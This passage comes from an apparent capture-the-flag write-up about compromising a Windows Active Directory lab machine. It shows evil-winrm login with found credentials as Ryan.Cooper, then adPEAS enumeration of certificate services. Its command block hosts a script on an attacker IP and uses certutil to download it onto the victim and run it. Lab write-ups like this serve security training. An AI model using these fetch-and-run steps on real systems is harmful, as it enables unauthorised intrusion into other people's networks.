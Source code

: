 ![Credentials of Ryan.Cooper](Images/log-file.png)

We will use them as username and password for repectively `evil-winrm` since we can see that there's a user called _Ryan.Cooper_ in the system.

![Getting foothold as Ryan.Cooper](Images/userflag.png)

We've successfully got the shell as the user that has a flag. We can see the user flag in `C:\Users\Ryan.Cooper\Desktop`.


# Enumerating Active Directory Certificate Services
We ran `winpeas.exe` for local privilege escalation but nothing interesting came up. So my focus shifted towards Active Directory. We used a tool called [adPEAS](https://github.com/61106960/adPEAS) to enumerate Active Directory. We'll download it to our machine first and then download it to the victim machine from our machine.
```bash
wget https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS-Light.ps1   # Download to attacker machine

python3 -m http.server 80   # Host a webserver on attacker machine

certutil -urlcache -f http://10.10.14.62/adPEAS-Light.ps1 adpeas.ps1   # Download it to victim machine

. .\adpeas.ps1   # Dot sourcing the powershell script to use it

Invoke-adPEAS   # Enumerate everything related to the AD
```

![Vulnerable Template found by adPEAS](Images/UserAuthentication-enumerate.png)
